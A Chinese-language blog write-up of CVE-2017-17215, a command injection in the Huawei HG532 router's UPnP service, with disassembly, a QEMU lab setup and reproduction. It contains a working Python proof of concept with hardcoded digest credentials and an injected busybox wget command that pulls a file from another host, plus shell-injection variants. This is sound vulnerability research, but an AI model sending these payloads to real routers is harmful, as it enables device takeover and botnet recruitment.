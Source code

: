 ```yaml
---
layout: post
title:  "CVE-2017-17215-HG532命令注入漏洞"
date:   2019-9-14
categories: 
excerpt: 
---
```


* content
{:toc}


# **CVE-2017-17215-HG532命令注入漏洞**

如果图片无法显示：
<https://github.com/tearorca/tearorca.github.io/blob/master/_posts/2019-9-14-CVE-2017-17215-HG532%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md>


## **漏洞介绍**

华为HG532的upnp存在命令注入漏洞，在端口37215发送数据包可以造成攻击。

cve介绍：
<https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17215>
固件下载地址：
<https://club.huawei.com/forum.php?mod=attachment&aid=Mzc2OTkzMXxkMDc5NTQxMXwxNTY4NDM5ODQwfDEzNDQ4NDg3NHw2NDA1NzQ0>


## **漏洞分析**

poc：

	import requests

	headers = {
		"Authorization": "Digest username=dslf-config, realm=HuaweiHomeGateway, nonce=88645cefb1f9ede0e336e3569d75ee30, uri=/ctrlt/DeviceUpgrade_1, response=3612f843a42db38f48f59d2a3597e19c, algorithm=MD5, qop=auth, nc=00000001, cnonce=248d1a2560100669"
	}

	data = '''<?xml version="1.0" ?>
	 <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
	  <s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
	   <NewStatusURL>;/bin/busybox wget -g 172.16.16.17 -l /tmp/1 -r /1;</NewStatusURL>
	   <NewDownloadURL>HUAWEIUPNP</NewDownloadURL>
	  </u:Upgrade>
	 </s:Body>
	</s:Envelope>
	'''
	requests.post('http://172.16.16.21:37215/ctrlt/DeviceUpgrade_1',headers=headers,data=data)


从poc的data里面可以看到<NewStatusURL>后面跟着的代码有点意思，ida载入upnp，搜索字符串，查看交叉引用。找到位置之后发现这里竟然不是一个函数，不知道什么原因导致这里的一段代码没有生成一个函数。但并不影响阅读。

![image.png](http://ww1.sinaimg.cn/large/7fb67c86ly1g77g8va3koj21500i0qgi.jpg)

	LOAD:00407B20 lui $gp, 0x43
	LOAD:00407B24 addiu $sp, -0x438
	LOAD:00407B28 li $gp, 0x42EB60
	LOAD:00407B2C sw $ra, 0x434($sp)
	LOAD:00407B30 sw $s1, 0x430($sp)
	LOAD:00407B34 sw $s0, 0x42C($sp)
	LOAD:00407B38 sw $gp, 0x18($sp)
	LOAD:00407B3C la $t9, ATP_XML_GetChildNodeByName
	LOAD:00407B40 move $s0, $a0
	LOAD:00407B44 lw $a0, 0x2C($a0)
	LOAD:00407B48 la $a1, aNewdownloadurl # "NewDownloadURL"
	LOAD:00407B50 move $a2, $zero
	LOAD:00407B54 jalr $t9 ; ATP_XML_GetChildNodeByName
	LOAD:00407B58 addiu $a3, $sp, 0x20
	LOAD:00407B5C lw $gp, 0x18($sp)
	LOAD:00407B60 bnez $v0, loc_407BE8
	LOAD:00407B64 move $s1, $v0
	LOAD:00407B68 lw $v0, 0x20($sp)
	LOAD:00407B6C nop
	LOAD:00407B70 beqz $v0, loc_407BE8
	LOAD:00407B74 lui $a1, 0x41
	LOAD:00407B78 la $t9, ATP_XML_GetChildNodeByName
	LOAD:00407B7C lw $a0, 0x2C($s0)
	LOAD:00407B80 la $a1, aNewstatusurl # "NewStatusURL"
	LOAD:00407B84 move $a2, $zero
	LOAD:00407B88 jalr $t9 ; ATP_XML_GetChildNodeByName
	LOAD:00407B8C addiu $a3, $sp, 0x24
	LOAD:00407B90 lw $gp, 0x18($sp)
	LOAD:00407B94 bnez $v0, loc_407BE8
	LOAD:00407B98 move $s1, $v0
	LOAD:00407B9C lw $v0, 0x24($sp)
	LOAD:00407BA0 nop
	LOAD:00407BA4 beqz $v0, loc_407BE8
	LOAD:00407BA8 addiu $s0, $sp, 0x28
	LOAD:00407BAC la $t9, snprintf
	LOAD:00407BB0 lw $a3, 0x20($sp)
	LOAD:00407BB4 la $a2, aUpgGUST1Firmwa # "upg -g -U %s -t '1 Firmware Upgrade Ima"...
	LOAD:00407BBC move $a0, $s0
	LOAD:00407BC0 li $a1, 0x400
	LOAD:00407BC4 jalr $t9 ; snprintf
	LOAD:00407BC8 sw $v0, 0x10($sp)
	LOAD:00407BCC lw $gp, 0x18($sp)
	LOAD:00407BD0 nop
	LOAD:00407BD4 la $t9, system
	LOAD:00407BD8 nop
	LOAD:00407BDC jalr $t9 ; system
	LOAD:00407BE0 move $a0, $s0
	LOAD:00407BE4 lw $gp, 0x18($sp)


分析一下这段代码，前面主要是调用了ATP_XML_GetChildNodeByName这个函数寻找"NewDownloadURL"和"NewStatusURL"的节头。寻找的"NewDownloadURL"的结果保存在$sp+0x20中，然后调用了snprintf。

snprintf函数介绍：snprintf()，函数原型为int snprintf(char *str, size_t size, const char *format, ...)。将可变参数 “…” 按照format的格式格式化为字符串，然后再将其拷贝至str中。

看一下snprintf的几个参数，第一个参数是$s0，从上面可以看到s0为$sp+0x28也就是复制的地址，第二个是长度为0x400,第三个是格式化参数"upg -g -U %s -t '1 Firmware Upgrade Image' -c upnp -r %s -d -"，最后一个就是前面"NewDownloadURL"的节点。这里也就是把"NewDownloadURL"节点的值传到$sp+0x28的位置。

	LOAD:00407BAC la $t9, snprintf
	LOAD:00407BB0 lw $a3, 0x20($sp)
	LOAD:00407BB4 la $a2, aUpgGUST1Firmwa #"upg -g -U %s -t '1 Firmware Upgrade Image' -c upnp -r %s -d -"
	LOAD:00407BBC move $a0, $s0
	LOAD:00407BC0 li $a1, 0x400
	LOAD:00407BC4 jalr $t9 ; snprintf
	LOAD:00407BC8 sw $v0, 0x10($sp)

之后紧接着就跟着一个system，参数为$s0也就是前面拷贝的节点信息，这里没有做任何的过滤，所以完全可以达到命令注入的目的。。

	LOAD:00407BD4 la $t9, system
	LOAD:00407BD8 nop
	LOAD:00407BDC jalr $t9 ; system
	LOAD:00407BE0 move $a0, $s0

## **环境搭建**

先下载qemu-mips的虚拟机，只需要下在这两个文件就可以了，下载地址：

<https://people.debian.org/~aurel32/qemu/mips/>，然后写一个脚本进行运行。

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g70054byhvj20wr063n0l.jpg>)

直接运行，帐号密码都是root，之后进行网络配置。

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g7005b637uj20wf0c1tdh.jpg>)

这里在处理qemu虚拟机网络配置的时候出现了点问题，最开始是按照网上一些教程进行配置，配置了eth1之后发现并没出现ip地址。

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g7005j4ywqj20wm0gtte2.jpg>)

既然不能让它自己出现，那只有我们来给了

ifconfig eth1 10.10.10.2/24

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g7005rc1tsj20wp0jejxr.jpg>)

然后就可以在本机上用ssh进行连接虚拟机。

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g7005xrx1oj20wq0aygs8.jpg>)

这个功能在这里对我们没什么用，接下来主要是把固件提取出来的文件拷贝到虚拟机中。

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g70068q6jmj20op0l3jxu.jpg>)

进入目录之后就可以用chroot . sh拿到一个shell。

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g7006en5ehj20p9087q44.jpg>)

## **漏洞复现**

运行upnp，但发现好像没什么效果，查看进程也没有出现。

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g7006ldcpzj20pq03b0ss.jpg>)

于是怀疑是不是还有别的进程需要运行，想到该漏洞发现的端口号为37215,于是查找打开这个端口的进程。发现虚拟机里没有grep，那只能到本机里面去找，找到了mic这个文件。

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g7006ugtbwj209z021glk.jpg>)

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g7007672ynj20pa0120t4.jpg>)

在虚拟机里面尝试运行它。

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g7007lr7vjj20jp0h60vn.jpg>)

发现可以运行，对前面的poc进行修改，在<NewStatusURL>中间尝试进行命令注入。

	import requests

	headers = {
		"Authorization": "Digest username=dslf-config, realm=HuaweiHomeGateway, nonce=88645cefb1f9ede0e336e3569d75ee30, uri=/ctrlt/DeviceUpgrade_1, response=3612f843a42db38f48f59d2a3597e19c, algorithm=MD5, qop=auth, nc=00000001, cnonce=248d1a2560100669"
	}

	data = '''<?xml version="1.0" ?>
	 <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
	  <s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
	   <NewStatusURL>;ls;date;</NewStatusURL>
	   <NewDownloadURL>HUAWEIUPNP</NewDownloadURL>
	  </u:Upgrade>
	 </s:Body>
	</s:Envelope>
	'''
	requests.post('http://10.10.10.2:37215/ctrlt/DeviceUpgrade_1',headers=headers,data=data)


在本机运行poc

	<NewStatusURL>;ls;date;</NewStatusURL>

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g7007xidm2j20v40awaib.jpg>)

	<NewStatusURL>;ifconfig;</NewStatusURL>

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g700844ekjj20ur0aaaik.jpg>)

## **参考链接**

<https://xz.aliyun.com/t/4819#toc-3>

<https://research.checkpoint.com/good-zero-day-skiddie/>
